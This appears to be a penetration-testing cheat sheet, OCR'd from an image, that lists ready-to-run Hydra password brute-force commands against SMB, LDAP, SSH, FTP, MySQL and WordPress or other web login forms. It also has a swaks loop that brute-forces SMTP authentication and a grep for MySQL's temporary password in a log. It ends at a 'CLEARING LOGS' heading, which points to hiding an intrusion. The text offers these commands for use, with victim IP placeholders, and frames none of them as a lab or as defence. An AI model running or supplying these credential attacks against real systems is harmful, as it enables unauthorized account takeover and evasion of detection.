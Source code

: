 | hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                             | Hydra brute force SMB user with rockyou:             |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login            |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |
  
# swaks bruteforce to send email 
for i in $(cat passwords.txt); do echo "=== Trying Password: "$i"===" ; swaks --to user@email.com --from user@email.com --server mail.server.com --auth LOGIN --auth-user user@email.com --auth-password $i --tls --data "Subject: hello\n wellcome"; done

# Brute Force hydra more commands
SSH
Command to attack:
hydra -l user -P passwords.txt IP_VICTIM ssh


HTTP-POST LOGIN
Command to attack:
sudo hydra -l user -p passwords.txt IP_VICTIM http-post-form ‘/path/login:username_field&password_field=^PASS^:Error Message’

Username Field: Firefox F12 -> Network -> Send Login.
Password Field: Firefox F12 -> Network -> Send Login.

FTP
Command to attack:
hydra -l user -P passwords.txt IP_VICTIM ftp

MYSQL
grep 'temporary password' /var/log/mysqld.log


hydra -l user -P passwords.txt IP_VICTIM mysql

SMB
hydra -l user -P passwords.txt IP_VICTIM smb

CLEARING LOGS
